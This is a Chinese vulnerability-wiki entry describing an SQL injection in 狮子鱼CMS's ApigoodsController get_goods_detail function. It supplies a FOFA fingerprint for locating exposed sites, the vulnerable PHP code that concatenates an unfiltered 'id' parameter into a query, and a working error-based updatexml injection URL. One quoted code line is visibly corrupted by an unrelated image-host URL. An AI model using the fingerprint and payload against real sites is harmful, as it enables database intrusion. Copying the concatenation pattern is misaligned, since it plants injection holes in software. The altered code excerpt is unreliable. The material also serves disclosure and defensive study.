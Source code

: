 # 狮子鱼CMS ApigoodsController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php 参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 狮子鱼CMS

## FOFA

> [!NOTE]
>
> "/seller.php?s=/Public/login"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/szy-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在漏洞的文件为 **ApigoodsController.class.php **, 关键位置为

```php
 public function get_goods_detail() {
        $id = I('get.id');
        $pin_id = I('get.pin_id', 0);
		
		$token = I('get.token');
		
		$weprogram_token = M('weprogram_token')->field('member_id')->where( array('token' =>$token) )->find();
		$member_id = $weprogram_token['member_id'];
		
		
		 
		
        $need_data = array();
        $sql = "select g.*,gd.description,gd.is_untake_level,level_discount,gd.video_src,gd.video_size_width,gd.vedio_size_height,gd.is_video,
            gd.summary,gd.share_title,gd.activity_summary,gd.tag from " . C('DB_PREFIX') . "goods g," . C('DB_PREFIX') . "goods_description gd where g.goods_id=gd.goods_id and g.goods_id=" . $id;
        $goods = M()->query($sql);
        $pin_model = D('Home/Pin');
        $goods_model = D('Home/Goods');
        $qian = array(
            "/Uploads/image"
        );
		$c_site_url = str_replace('/dan','',C('SITE_URL'));
        $hou = array(
            $c_site_url . "/Uploads/image"
        );
		$goods[0]['video_src'] = C('SITE_URL')."Uploads/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/".$goods[0]['video_src'];
		
        $goods[0]['description'] = str_replace($qian, $hou, $goods[0]['description']);
        $goods[0]['description'] = htmlspecialchars_decode($goods[0]['description']);
        $qian = array(
            "\r\n"
        );
```

![](http://wikioss.peiqi.tech/vuln/szy-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞测试为

```
https://xxx.xxx.xx.xxx/index.php?s=apigoods/get_goods_detail&id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](http://wikioss.peiqi.tech/vuln/szy-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)